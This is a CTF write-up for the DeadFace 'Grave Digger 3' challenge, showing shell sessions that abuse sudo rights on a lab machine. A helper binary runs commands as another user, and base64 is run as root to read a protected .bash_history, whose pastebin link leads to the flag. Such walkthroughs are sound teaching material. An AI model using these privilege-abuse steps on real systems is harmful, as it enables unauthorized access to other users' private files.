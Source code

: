 ```yaml
---
title: Grave Digger 3
tags: [DeadFace, ctf]
color: success 
description: Writeup for Grave Digger 3 DeadFace CTF event.
---
```


# Writeup for Grave Digger 3

## Description

```text
There is one more flag that DEADFACE has hidden on d34th's machine. Somehow, you'll have to find a way to access d34th's files in his home directory. Submit the flag as flag{flag text}
```

Using the same creds from Grave Digger 1 and 2, we have access to ssh with `crypto_vamp` user. Basic check for escalating privilege shows we can use a binary called `reader` in `/opt` directory as user `lilith` without password.

```bash
crypto_vamp@c81ec1737490:~$ sudo -l
Matching Defaults entries for crypto_vamp on c81ec1737490:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User crypto_vamp may run the following commands on c81ec1737490:
    (lilith) NOPASSWD: /opt/reader
crypto_vamp@c81ec1737490:~$
```

Looking at the man page of the `reader` binary, we can see that we can actually use `-c` flag to execute commands. Using that, we can run commands as `lilith` user.

```bash
crypto_vamp@c81ec1737490:~$ man reader
man(8)                                                                               reader man page                                                                               man(8)

NAME
       reader - read files as lilith

SYNOPSIS
       reader [OPTIONS] [FILENAME]

DESCRIPTION
       reader is developed to help crypto_vamp and other new recruits read privileged files until their vetting process is complete.

OPTIONS
       -f, --file FILENAME
              Read the contents of FILENAME.

       -c, --command COMMAND
              Execute a command (for troubleshooting purposes ONLY).

       -h, --help
              View the help information.

       -v, --version
              View the version information.

       BUGS   No known bugs.

AUTHOR
       Lilith (bl0ody_mary@deadface.io)

1.3.1                                                                                  24 Sep 2022                                                                                 man(8)
crypto_vamp@c81ec1737490:~$
```

Checking for another basic `sudo -l` from the `c` flag, we can see that we can actually run `/usr/bin/base64` as `root` on the machine without password. There's another user called `spookyboi` whose `bash_history` doesn't seems to be empty. So using the given `base64` binary, let's read the history.

```bash
crypto_vamp@c81ec1737490:~$ sudo -u sudo -u lilith /opt/reader -c "sudo -l"
1: Matching Defaults entries for lilith on c81ec1737490:
2:     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sb3: in\:/bin\:/snap/bin
4:
5: User lilith may run the following commands on c81ec1737490:
6:     (ALL) NOPASSWD: /usr/bin/base64
7:     (ALL) NOPASSWD: /usr/bin/gzip
8:     (ALL) NOPASSWD: /user/bin/gunzip
crypto_vamp@c81ec1737490:~$
```

```bash
crypto_vamp@c81ec1737490:~$ sudo -u sudo -u lilith /opt/reader -c "ls -al /home/spookyboi"
1: total 48
2: drwxrwxr-x 1 spookyboi spookyboi 4096 Oct 13 22:50 .
3: drwxrwxr-x 1 root      root      4096 Oct 13 22:41 ..
4: -rw------- 1 spookyboi spookyboi  271 Oct 13 22:50 .bash_history
5: drwxrwxr-x 1 spookyboi spookyboi 4096 Oct 13 22:51 .keys
6: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Desktop
7: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Documents
8: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Downloads
9: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Music
10: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Pictures
11: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Public
12: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Templates
13: drw-rw---- 1 spookyboi spookyboi 4096 Oct 13 22:42 Videos
crypto_vamp@c81ec1737490:~$ sudo -u sudo -u lilith /opt/reader -c "sudo /usr/bin/base64 /home/spookyboi/.bash_history | base64 -d"
1: ls -l
2: cd ~
3: mkdir docs
4: rm -rf docs
5: wget https://pastebin.com/raw/XX2nkn3W > gravedigger3.txt
6: rm gravedigger3.txt
7: openssl genrsa -aes128 -out spookyboi-priv.pem 1024
8: openssl rsa -in spookyboi-priv.pem  -pubout > spookyboi-public.pem
9: rm spookyboi-public.pem
10: mv *.pem .keys/
crypto_vamp@c81ec1737490:~$
```

# Flag

```bash
» wget https://pastebin.com/raw/XX2nkn3W
--2022-10-17 17:42:07--  https://pastebin.com/raw/XX2nkn3W
Resolving pastebin.com (pastebin.com)... 172.67.34.170, 104.20.67.143, 104.20.68.143, ...
Connecting to pastebin.com (pastebin.com)|172.67.34.170|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]
Saving to: ‘XX2nkn3W’

XX2nkn3W                                            [ <=>                                                                                                  ]      17  --.-KB/s    in 0s

2022-10-17 17:42:07 (3.42 MB/s) - ‘XX2nkn3W’ saved [17]

» cat XX2nkn3W
flag{b4d_h1sTOrY}
```

##### Author: <a href="https://twitter.com/avijneyam">Avijneyam</a>